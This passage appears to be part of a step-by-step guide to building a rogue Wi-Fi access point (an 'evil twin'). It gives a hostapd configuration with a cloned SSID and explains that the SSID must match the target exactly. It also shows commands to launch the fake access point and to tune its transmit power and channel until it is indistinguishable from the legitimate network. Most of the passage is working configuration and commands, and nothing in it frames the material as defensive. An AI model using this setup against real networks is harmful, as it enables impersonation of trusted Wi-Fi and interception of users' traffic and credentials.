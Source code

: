 
### **3. Configuring the Rogue AP with hostapd**  
The **hostapd** tool is used to create the rogue AP. A configuration file (`hostapd.conf`) defines the AP’s parameters.  

**Example Configuration File**:  
```ini
interface=wlan0  
driver=nl80211  
ssid=Free_Coffee_SSID  
hw_mode=11g  
channel=6  
macaddr_acl=0  
auth_algs=1  
ignore_broadcast_ssid=0  
```  

**Parameter Descriptions**:  
| Parameter         | Description                                                                 |  
|-------------------|-----------------------------------------------------------------------------|  
| `interface`       | Wireless interface (e.g., `wlan0`).                                         |  
| `ssid`            | Cloned SSID (must match the target exactly, including case and spacing).    |  
| `channel`         | Match the target’s channel (e.g., `6` for 2.4 GHz).                         |  
| `hw_mode`         | Set to `11g` for 2.4 GHz or `11a` for 5 GHz.                                |  

**Start the Rogue AP**:  
```bash
hostapd -B /etc/hostapd/hostapd.conf
```  
*The `-B` flag runs the AP in the background.*

---

### **4. Adjusting Signal Strength and Channel**  
To ensure the rogue AP is indistinguishable from the legitimate network, its signal strength and channel must align with the target.  

**Commands**:  
- **Set Transmission Power**:  
  ```bash
  iwconfig wlan0 txpower 20  # Adjust dBm to match the target’s signal strength.
  ```  
- **Channel Hopping (Optional)**:  
  ```bash
  while true; do  
    iwconfig wlan0 channel 6  
    sleep 30  
    iwconfig wlan0 channel 11  
    sleep 30  
  done  
  ```  
